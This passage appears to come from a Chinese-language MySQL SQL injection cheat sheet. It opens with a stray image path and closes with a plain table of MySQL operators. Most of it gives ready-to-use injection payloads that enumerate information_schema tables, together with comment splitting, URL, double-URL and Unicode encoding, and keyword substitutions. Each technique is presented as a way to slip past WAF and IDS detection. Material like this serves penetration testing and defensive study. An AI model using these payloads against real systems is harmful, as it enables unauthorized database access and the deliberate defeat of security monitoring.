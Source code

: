 	dual是一个可用于测试的虚拟表。

__注释混淆__

评论可以用来分解查询来欺骗WAF/IDS并避免检测。 通过使用＃或 - 后跟一个换行符，我们可以将查询拆分为单独的行。

__例子__

	1'# 
	AND 0-- 
	UNION# I am a comment! 
	SELECT@tmp:=table_name x FROM-- 
	`information_schema`.tables LIMIT 1# 

URL编码

	1'%23%0AAND 0--%0AUNION%23 I am a comment!%0ASELECT@tmp:=table_name x FROM--%0A`information_schema`.tables LIMIT 1%23

一些函数可以使用注释和空格来混淆

	VERSION/**/%A0 (/*comment*/)

__编码__

对注入语句进行编码，有时候可以绕过`WAF/IDS`。

	URL Encoding	SELECT %74able_%6eame FROM information_schema.tables;
	Double URL Encoding	SELECT %2574able_%256eame FROM information_schema.tables;
	Unicode Encoding	SELECT %u0074able_%u6eame FROM information_schema.tables;
	Invalid Hex Encoding (ASP)	SELECT %tab%le_%na%me FROM information_schema.tables;

__避免关键字__

如果遇到IDS/WAF 检测一些关键字，还有一些除了编码之外的方法来绕过。

	information_schema.tables

	Spaces	information_schema . tables
	Backticks	`information_schema`.`tables`
	Specific Code	/*!information_schema.tables*/
	Alternative Names	information_schema.partitions 
	information_schema.statistics 
	information_schema.key_column_usage 
	information_schema.table_constraints

注意：备用名称可能取决于表中存在的PRIMARY键。


##### 运算符

	AND , &&	Logical AND
	=	Assign a value (as part of a SET statement, or as part of the SET clause in an UPDATE statement)
	:=	Assign a value
	BETWEEN ... AND ...	Check whether a value is within a range of values
	BINARY	Cast a string to a binary string
	&	Bitwise AND
	~	Invert bits
	|	Bitwise OR
	^	Bitwise XOR
	CASE	Case operator
	DIV	Integer division
	/	Division operator
	<=>	NULL-safe equal to operator
	=	Equal operator
	>=	Greater than or equal operator
	>	Greater than operator
	IS NOT NULL	NOT NULL value test
	IS NOT	Test a value against a boolean
	IS NULL	NULL value test
	IS	Test a value against a boolean